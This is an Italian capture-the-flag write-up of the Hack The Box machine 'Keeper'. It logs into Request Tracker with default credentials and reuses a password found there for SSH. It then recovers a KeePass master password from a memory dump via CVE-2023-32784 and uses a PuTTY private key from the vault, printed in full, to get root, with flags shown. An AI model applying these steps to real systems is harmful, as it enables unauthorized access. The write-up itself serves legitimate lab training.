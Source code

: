 **TARGET: 10.10.11.227**

# INFORMATION GATHERING

Per prima cosa lanciamo un rapido scan con [Nmap](Note/Tool/Nmap.md) per vedere quali porte e quali servizi girano 
```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# nmap -sV -sC --min-rate=5000 10.10.11.227
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-04 16:17 EDT
Nmap scan report for 10.10.11.227
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.78 seconds

```

Un scan approfondito su tutte le porte non ci da nessun nuovo risultato 

Abbiamo solo 2 porte aperte 

- 22 SSH OpenSSH 8.9p1 ( le versioni con vulnerabilità note sono più vecchie )
- 80 http nginx 1.18.0

# ENUMERATION

## Port 80

Iniziamo visitando http://10.10.11.227:80
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Keeper.png)
Ci rimanda alla pagina http://tickets.keeper.htb/rt/ per l'apertura di un ticket di supporto IT

Per prima cosa aggiungiamo `tickets.keeper.htb` al nostro `etc/hosts` visto che abbiamo trovato quello che sembra essere un VHOST

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/keeper1.png)Visitando http://tickets.keeper.htb/rt/ siamo di fronte ad un prompt di login 
e vediamo che il software si chiamo RT 4.4.4+dfsg-2ubuntu1 

Cercando su google per  le credenziali di default troviamo [questa](https://rt-wiki.bestpractical.com/wiki/RecoverRootPassword#:~:text=The%20topic%20of%20recovering%20root,of%20your%20Unix%20root%20user.) pagina dove vediamo che le credenziali sono 

- root
- password

le proviamo e siamo dentro 
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/keeper2.png)
Guardando nel tab Admin alla sezione User troviamo oltre all'utente root anche l'utente  lnorgaard
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/keeper3.png)Se apriamo lnorgaard troviamo quelle che sembrano delle credenziali 
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/keeper4.png)Ora abbiamo delle credenziali complete 
user:  lnorgaard
passwd: Welcome2023!

Non ci resta che provarle tramite [Ssh](CHEATSHEETS/Tunneling/Ssh.md) visto che ì l'unico servizio attivo 

```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sat Nov  4 21:40:18 2023 from 10.10.14.32
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
lnorgaard@keeper:~$
```

E ci prendiamo la nostra user_flag

```bash
lnorgaard@keeper:~$ cat user.txt
f562269f1eeb0cf0cdc7a4ee8254894b
```

# PRIVESC

Vediamo che oltre alla user_flag abbiamo un file .zip
```bash
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

lo scarichiamo sulla nostra macchina e lo estraiamo 

```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp
 extracting: passcodes.kdbx
```

Abbiamo due file `KeePassDumpFull.dmp` e `passcodes.kdbx

Cercando su goole per le vunerabiltà di keepass e come leggere il file.dump trovo riferimenti alla [CVE 2023-32784](https://cyberment.it/vulnerabilita-informatiche/cve-2023-32784-le-vulnerabilita-nei-password-manager-sono-una-realta/)[questa](https://github.com/CMEPW/keepass-dump-masterkey) pagina git dove abbiamo un tool per estralla

Scarichiamo il tool e lo eseguiamo 
```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# python3 poc.py -d KeePassDumpFull.dmp
2023-11-04 17:27:19,054 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Otteniamo queste password ma non sono molto chiare, proviamo a fare una ricerca per queste stringe 
più risultati ci ridanno la parola  `Rødgrød Med Fløde` che sia la password?

Apriamo keepass2 sulla nostra macchina e proviamo a legger il file `passcodes.kdbx`
>[!nota] Se non abbiamo keepass2 lo installiamo con il comando `sudo apt install keepass2`

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/keeper5.png)
e digitiamo `rødgrød med fløde` ( la passowrd è con le iniziali minuscole)

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/keeper6.png)Abbiamo due file. Quello interessante è il primo `keepr.htb` aperto da root che sembra contenere una chiava id_rsa
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/keeper7.png)
Notiamo che queste non sono nel solito formato ma sono nel formato PuttY

Cerando sempre su google come conetterci in ssh con credenziali Putty trovo [questa](https://askubuntu.com/questions/818929/login-ssh-with-ppk-file-on-ubuntu-terminal?source=post_page-----89d93fbff84b--------------------------------) discussione 

Sostanzialmente  KeePass ci ha fornito la chiave RSA SSH.
Dobbiamo utilizzarla come contenuto per il file ".ppk". a questo punto dobbiamo utilizzare puttygen per creare un file .pam  partendo dal file .ppk creato in precedenza

Ci creiamo il nostro file `key.ppk`

```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# nano key.ppk
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Utilizziamo puttygen per ricavare il file .pam

```
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# puttygen key.ppk -O private-openssh -o id_key.pam
```

Gli diamo i permessi di lettura

```
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# chmod 400 id_key.pam
```

Ci colleghiamo e prediamo la nostra root_flag
```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# ssh root@10.10.11.227 -i id_key.pam
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# cat /root/root.txt
8f394dfe47ff0f57fc617551a2605bf1
```